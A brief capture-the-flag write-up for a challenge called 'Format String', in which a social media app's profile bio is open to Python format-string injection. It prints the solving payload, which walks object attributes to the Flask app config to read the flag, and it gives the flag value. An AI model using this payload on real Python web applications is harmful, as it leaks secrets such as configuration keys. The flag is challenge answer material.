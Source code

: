 # Format String

### Challenge Server
```
http://[server]:8721
```

### Flag: EGCERT{rC3_v1a_51mpl3_f0rm4t_5tr1ng}

### Description:
A social media platform where users can create profiles, upload pictures, and connect with others.

### Solve
put in bio `{0.__class__.__init__.__globals__[app].config[FLAG]}`

